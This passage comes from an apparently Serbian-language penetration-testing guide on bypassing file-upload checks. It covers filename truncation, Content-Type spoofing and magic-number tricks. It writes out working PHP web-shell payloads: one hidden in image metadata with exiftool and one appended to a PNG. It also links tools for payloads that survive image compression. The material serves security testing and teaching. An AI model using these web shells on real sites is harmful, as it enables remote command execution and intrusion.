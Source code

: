 ```
# Linux maksimum 255 bajtova
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # oduzeti 4 ovde i dodati .png
# Uploadujte fajl i proverite odgovor koliko karaktera dozvoljava. Recimo 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Napravite payload
AAA<--SNIP 232 A-->AAA.php.png
```

### Bypassovanje Content-Type, Magic Number, kompresija i promena veličine

* Bypassovanje provere **Content-Type** podešavanjem **vrednosti** **Content-Type** **zaglavlja** na: _image/png_, _text/plain_, application/octet-stream\_

1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)

* Bypassovanje provere **magic number** dodavanjem **bajtova prave slike** na početak fajla (zbunite _file_ komandu). Ili uvedite shell unutar **metapodataka**:\
  `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
  Ili možete takođe **ubaciti payload direktno** u sliku:\
  `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* Ako se **kompresija dodaje vašoj slici**, na primer korišćenjem standardnih PHP biblioteka poput [PHP-GD](https://www.php.net/manual/fr/book.image.php), prethodne tehnike neće biti korisne. Međutim, možete koristiti **PLTE chunk** [**tehniku definisanu ovde**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) da ubacite tekst koji će **preživeti kompresiju**.
* [**Github sa kodom**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* Veb stranica takođe može **promeniti veličinu** slike, koristeći na primer PHP-GD funkcije `imagecopyresized` ili `imagecopyresampled`. Međutim, možete koristiti **IDAT chunk** [**tehniku definisanu ovde**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) da ubacite tekst koji će **preživeti kompresiju**.
* [**Github sa kodom**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_idat\_png.php)
* Još jedna tehnika za kreiranje payloada koji **preživljava promenu veličine slike**, koristeći PHP-GD funkciju `thumbnailImage`. Međutim, možete koristiti **tEXt chunk** [**tehniku definisanu ovde**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) da ubacite tekst koji će **preživeti kompresiju**.
* [**Github sa kodom**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_tEXt\_png.php)

### Ostali trikovi za proveru

